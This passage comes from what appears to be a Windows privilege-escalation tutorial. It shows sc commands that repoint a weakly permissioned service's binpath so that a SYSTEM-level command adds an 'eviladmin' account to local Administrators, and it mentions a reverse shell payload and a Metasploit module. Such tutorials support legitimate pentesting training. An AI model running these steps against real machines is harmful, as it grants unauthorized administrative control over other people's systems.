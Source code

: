 C:\Users\testuser\AppData\Local\Temp>sc stop "Vulnerable Service"
sc stop "Vulnerable Service"
SERVICE_NAME: Vulnerable Service 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
C:\Users\testuser\AppData\Local\Temp>sc start "Vulnerable Service"
sc start "Vulnerable Service"
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
```
When you try to start service it will return an error. As we talked earlier it’s because, when a service starts in Windows operating systems, it must communicate with the Service Control Manager. “net user” cannot communicate with the SCM. No worries, our command will run as SYSTEM and new user will be added successfully.
Now we should add new “eviladmin” user to local admins by changing “binpath” and starting service again.(We don’t need to stop it again, it is already not running because of it didn’t communicate with the SCM, you know)
```
C:\Users\testuser\AppData\Local\Temp>sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"    
sc config "Vulnerable Service" binpath= "net localgroup Administrators eviladmin /add"
[SC] ChangeServiceConfig SUCCESS
C:\Users\testuser\AppData\Local\Temp>sc start "Vulnerable Service"
sc start "Vulnerable Service"
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
C:\Users\testuser\AppData\Local\Temp>
```
Enjoy your new local admin account!
```
C:\Users\testuser\AppData\Local\Temp>net user
net user
User accounts for \\TARGETMACHINE
-------------------------------------------------------------------------------
Administrator            can                      eviladmin                
Guest                    testuser                 
The command completed successfully.
C:\Users\testuser\AppData\Local\Temp>
```
As we did before, you can prefer dropping a reverse shell payload to target machine and replacing binpath with the payload’s path. Instead of manually applying this method you can use this metasploit module: ```exploit/windows/local/service_permissions```
You have to link it to an existing Meterpreter session:
```
msf > use exploit/windows/local/service_permissions
msf exploit(service_permissions) > show options
Module options (exploit/windows/local/service_permissions):
   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   AGGRESSIVE  false            no        Exploit as many services as possible (dangerous)
   SESSION                      yes       The session to run this module on.
Exploit target:
   Id  Name
   --  ----
   0   Automatic
```
### Insecure File/Folder Permissions
It is very similar to what we did with Unquoted Service Paths. Unquoted Service Paths takes advantage of “CreateProcess” function’s weakness in combination with folder permissions along the executable file path of a service. But here we will try to replace the executable directly.
```